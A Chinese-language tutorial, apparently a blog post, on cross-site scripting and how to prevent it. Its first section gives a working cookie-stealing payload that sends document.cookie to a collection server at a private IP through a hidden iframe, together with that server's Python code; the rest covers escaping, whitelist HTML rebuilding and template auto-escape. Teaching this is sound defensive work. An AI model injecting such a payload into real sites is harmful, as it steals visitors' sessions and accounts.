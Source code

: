 ### 一、XSS跨站攻击
XSS 全称“跨站脚本”，是注入攻击的一种。其特点是**`不对服务器端造成任何伤害`**，而是通过一些正常的站内交互途径，例如:  发布评论，提交含有JavaScript 的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。

运行预期之外的脚本带来的后果有很多中，可能只是简单的恶作剧——一个关不掉的窗口： 
```
while (true) {
    alert("我叫大雄，大家好~");
}
```
也可以是盗号或者其他未授权的操作。
我们来模拟一下这个过程，先建立一个用来收集信息的服务器：  
```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

#  跨站脚本注入的信息收集服务器

import bottle
app = bottle.Bottle()
plugin = bottle.ext.sqlite.Plugin(dbfile='/var/db/myxss.sqlite')
app.install(plugin)
@app.route('/myxss/')
def show(cookies, db):
    SQL = 'INSERT INTO "myxss" ("cookies") VALUES (?)'
    try:
        db.execute(SQL, cookies)
    except:
        pass
    return ""
if __name__ == "__main__":
    app.run()
```
然后在某一个页面的评论中注入这段代码：
```
// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```
于是每个访问到含有该评论的页面的用户都会遇到麻烦——他们不知道背后正悄悄的发起了一个请求，是他们所看不到的。而这个请求，会把包含了他们的帐号和其他隐私的信息发送到收集服务器上。

我们知道 AJAX 技术所使用的 XMLHttpRequest 对象都被浏览器做了限制，只能访问当前域名下的 URL，所谓不能“跨域”问题。这种做法的初衷也是防范 XSS，多多少少都起了一些作用，但不是总是有用。  
正如上面的注入代码，用 iframe 也一样可以达到相同的目的。甚至在愿意的情况下，我还能用 iframe 发起 POST 请求。当然，现在一些浏览器能够很智能地分析出部分 XSS 并予以拦截，例如新版的 Firefox、Chrome 都能这么做。  
但拦截不总是能成功，何况这个世界上还有大量根本不知道什么是浏览器的用户在用着可怕的 IE6。从原则上将，我们也不应该把事关安全性的责任推脱给浏览器，所以**`防止 XSS 的根本之道还是过滤用户输入`**。用户输入总是不可信任的，这点对于 Web 开发者应该是常识。
### 二、如何防范
* 如果我们不需要用户输入 HTML 而只想让他们输入纯文本，那么把所有用户输入进行 HTML **`转义输出`**。
* 若要允许用户输入 HTML，又要过滤其中的脚本。Tidy 等 HTML 清理库可以帮忙，但前提是我们小心地使用。仅仅粗暴地去掉 script 标签是没有用的，任何一个合法 HTML 标签都可以添加 onclick 一类的事件属性来执行 JavaScript。对于复杂的情况，建议使用简单的方法处理，就是**`白名单重新整理`**。

用户输入的 HTML 可能拥有很复杂的结构，但我们并不将这些数据直接存入数据库，而是使用 HTML 解析库遍历节点，获取其中数据（之所以不使用 XML 解析库是因为 HTML 要求有较强的容错性）。然后根据用户原有的标签属性，重新构建 HTML 元素树。构建的过程中，所有的标签、属性都只从白名单中拿取。这样可以确保万无一失。  
如果用户的某种复杂输入不能为解析器所识别（前面说了 HTML 不同于 XML，要求有很强的容错性），那么它不会成为漏网之鱼，因为白名单重新整理的策略会直接丢弃掉这些未能识别的部分。最后获得的新 HTML 元素树，我们可以拍胸脯保证——所有的标签、属性都来自白名单，一定不会遗漏。
### 三、总结
现在看来，大多数 Web 开发者都了解 XSS 并知道如何防范，往往大型的 XSS 攻击（包括前段时间新浪微博的 XSS 注入）都是由于疏漏。建议在使用模版引擎的 Web 项目中，开启（或不要关闭）类似 Django Template、Jinja2 中“默认转义”（Auto Escape）的功能。在不需要转义的场合，我们可以用类似的方式取消转义。这种白名单式的做法，有助于降低我们由于疏漏留下 XSS 漏洞的风险。

另外一个风险集中区域，是富 AJAX 类应用（例如豆瓣网的阿尔法城）。这类应用的风险并不集中在 HTTP 的静态响应内容，所以不是开启模版自动转义能就能一劳永逸的。再加上这类应用往往需要跨域，开发者不得不自己打开危险的大门。这种情况下，站点的安全非常依赖开发者的细心和**`应用上线前有效的测试`**。  
现在亦有不少开源的 XSS 漏洞测试软件包。
不管怎么说，**`从用户输入的地方把好关总是成本最低而又最有效的做法`**。
#### 相关链接
<a href="https://www.cnblogs.com/wangyuyu/p/3388180.html" target="_blank">XSS跨站攻击</a>  

